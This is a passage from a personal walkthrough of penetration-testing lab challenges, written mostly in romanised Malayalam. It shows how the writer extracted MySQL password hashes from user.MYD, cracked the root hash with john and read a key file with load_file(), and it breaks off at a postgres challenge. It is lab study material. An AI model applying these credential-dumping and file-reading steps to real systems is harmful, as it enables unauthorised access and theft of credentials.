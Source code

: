 # 20 - mysql as a user
-->ivide namal mysql system account il keranam
-->su mysql        adikuka enit password mysql enn kodukuka.apol namal mysql user aayi keri
-->ini namal ee `/var/lib/mysql/mysql`  path ilek pokanam.enit ->ls adikuka
-->apol user.MYD enna file kanan patum.
->strings user.MYD           apol namuk athil ulla contents oke kanan patum

```
root*13931CA49BDAD171AA2D3BE8        ---1
6c732c6044b7
root
        127.0.0.1
root
root
        localhost
debian-sys-maint*D1461CE757B9B67AC344204A3A7FE9F9DB17A35C
E47FCD55AC77C8A4                              ---2
```

-->ivide namuk root user inte password kanan patum.1 il ullathan password.athin sehsham 2 nok.athil ullathan adyathethinte baki aayitula passwd
-->so ath randum copy chyth oru file il aakuka ie, `oot:*13931CA49BDAD171AA2D3BE8E47FCD55AC77C8A4`
->john passwd.txt koduth crack chyuka ok
-->ivide ingane copy chyunathenthenal 1 nok avide aa password kazhinj randamathe line il ullath adyathe stringumayi cherunila karnam small letters oke und but 2 il aanengil 1 ile pole thane aan string ullath.so athayirikam main passwordinte baki.ith randum copy chythit debian-sys-maint enna user inte password lenthumayi compare chyuka.apol kanam rand password length um same aayi kidakunu.so naaml angane passwd kandethunu ok
-->ipol namal mysql user aayitan ullath ipo namuk root password crack chyth kitiyathkond root ayi keram
->mysql -u root -proot3
-->ipol namal root ayi keri ini nerthe pole chyuka
->show databases; 
->use pentesterlab
->show tables;
->SELECT * from users;

# 21 - mysql load_file()
-->In this challenge, `mysql` doesn't have a `root` password. Once you gain access, your goal is to read the content of the file `/var/lib/mysql-files/key.txt` using the `load_file(...)` MySQL function.
-->lab open aakuka enit mysql root il keruka ie,
->mysql -u root
-->ini namuk mysql il ulla contents oke read chyam with load_file( ' ' )
-->`SELECT load_file('/var/lib/mysql-files/key.txt');`
-->ipol namuk key kitum
-->newer mysql version il namuk ella karyangalum ee load_file vech retrieve chyan patila. pandathe mysql il even load_file('/etc/passwd') vere nadakumayirunu

# 22 - postgres
-->In this challenge, the user `postgres` has a trivial password. Once you get access to this account you should be able to connect to the local PostgreSQL database by running `psql`
-->Once you gain access, you can navigate the database using:
